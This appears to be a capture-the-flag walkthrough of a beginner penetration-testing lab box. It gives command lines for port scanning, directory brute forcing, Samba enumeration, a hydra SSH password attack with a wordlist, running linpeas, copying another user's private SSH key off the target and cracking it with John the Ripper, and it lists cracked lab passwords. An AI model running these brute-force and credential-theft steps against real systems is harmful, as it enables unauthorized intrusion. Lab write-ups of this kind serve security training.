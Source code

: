 # Basic Penetration Testing Box

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster, enum4linux, hydra, linpeas, John the Ripper

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

**enum4linux**: tool for enumerating information from Windows and Samba systems

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

**linpeas**: script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND EXPOSED SERVICES


**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```
-sC: script scan with default scripts<br>
-sV: probe open ports to determine service/version info<br>
-oN: output scan in normal to given filename<br>


![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
  22 (ssh),<br>
  80 (http),<br>
  139 (smbd),<br>
  445 (smbd),<br>
  8009 (ajp13),<br>
  8080 (http)<br>

----------------------------------

## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: dirbuster

```
dirb http://10.10.19.208
```

![dirb](./imgs/dirb.png)

**HIDDEN DIR**: /development

----------------------------------

## 3. GET USERNAME & PASSWORD


**TOOLS**: enum4linux, hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

-a: do all simple enumerations

![enum4linux](./imgs/enum4linux.png)

**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

-l: login name<br>
-P: password file to iterate through

![hydra](./imgs/hydra.png)

**PASSWORD**: armando

----------------------------------

## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: linpeas, John the Ripper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```

![linpeas](./imgs/linpeas.png)

```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```

![john](./imgs/john.png)

**PASSWORD**: beeswax

----------------------------------

## 5. FINAL PASSWORD



```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
